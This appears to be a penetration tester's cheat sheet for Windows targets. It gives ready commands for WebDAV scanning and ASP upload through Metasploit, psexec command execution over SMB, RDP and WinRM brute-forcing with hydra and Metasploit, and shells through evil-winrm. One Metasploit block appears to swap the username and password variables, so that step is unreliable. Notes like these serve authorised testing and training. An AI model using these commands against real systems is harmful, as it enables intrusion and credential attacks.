 # Windows

## Webdav

### `davtest`&#x20;

* to scan the webdav..... type in the directory path to the tool :&#x20;

```bash
davtest -url http://$IP/webdav -auth username:password
```

### cadaver

* to interact with the server (ie. to put,download, etc) files.

```bash
cadaver http://$IP/dir #dir = webdav directory 
```

### metasploit&#x20;

* exploiting with msfconsole (automating davtest + cadaver)

```bash
exploit/windows/iis/iis_webdav_upload_asp 

#note if extension allowed is different this wont work
#only works if asp is executable on the server
# to check what extensions are executable ...... use davtest

set HttpPassword $username
set HttpUsername $password
set RHOSTS $IP
set PATH /webdav_dir/random_name.asp
```



## psexec

* [https://github.com/fortra/impacket/blob/master/examples/psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)
* used to run cmd in windows via samba (smb)

```bash
psexec.py username@ip <cmd> #cmd.exe
```



## RDP

* what is rdp?

{% embed url="https://www.cloudflare.com/learning/access-management/what-is-the-remote-desktop-protocol/" %}

* some tricks to pentest

{% embed url="https://hacktricks.boitatech.com.br/pentesting/pentesting-rdp" %}

### msfconsole

* to scan if a port is running rdp or not

```bash
use auxiliary/scanner/rdp/rdp_scanner

set rhosts $IP
set rport $port
run
```



### hydra

* bruteforce rdp

```bash
hydra -L /path/to/users.txt -P /path/to/wordlists.txt rdp://$IP:$PORT/
```



## xfreerdp

* connect to rdp port&#x20;

```bash
xfreerdp /u:$username /p:$password /v:$IP:$PORT
```



## Winrm

### msfconsole

* bruteforce winrm

```bash
use auxiliary/scanner/winrm/winrm_login

set RHOSTS $IP
set USER_FILE /path/to/users.txt
set PASS_FILE /path/to/passwd.txt
```

### evil-winrm

* connect & get shell

```bash
evil-winrm.rb -u $user -p '$passwd' -i $IP
```
























